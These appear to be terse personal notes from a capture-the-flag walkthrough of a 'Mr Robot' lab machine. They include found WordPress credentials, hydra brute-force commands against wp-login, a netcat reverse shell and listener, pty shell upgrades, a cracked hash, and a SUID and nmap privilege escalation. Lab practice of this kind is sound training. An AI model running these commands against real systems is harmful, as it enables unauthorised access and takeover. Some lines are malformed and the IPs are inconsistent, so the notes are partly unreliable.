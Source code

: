 # Mr Robot

Creds also present in: `http://10.10.192.181/license` base64 decode at the end of the file

http://10.10.237.51/wp-login.php

User: Elliot
Password: ER28-0652

hydra -l Elliot -P fsocity.dic mrrobot.thm http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"

## Get user:

hydra -vV -L new.dic -p somepassword 10.10.235.143 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

## Get Password:

hydra -vV -P new.dic -l elliot 192.168.56.119 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password'


http://10.10.237.51/wp-admin/plugin-install.php?tab=upload

nc -e /bin/sh 10.10.237.51 4444
nc -nvlp 9999
python -c 'import pty; pty.spawn("/bin/bash")'
python 'import pty; pty.spawn("/bin/bash")'
python2 'import pty; pty.spawn("/bin/bash")'
python3 'import pty; pty.spawn("/bin/bash")'

su -l robot
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

## Get SUID binaries

`find / -user root -perm -4000 -print 2>/dev/null`
nmap as sudo

nmap --interactive

!sh
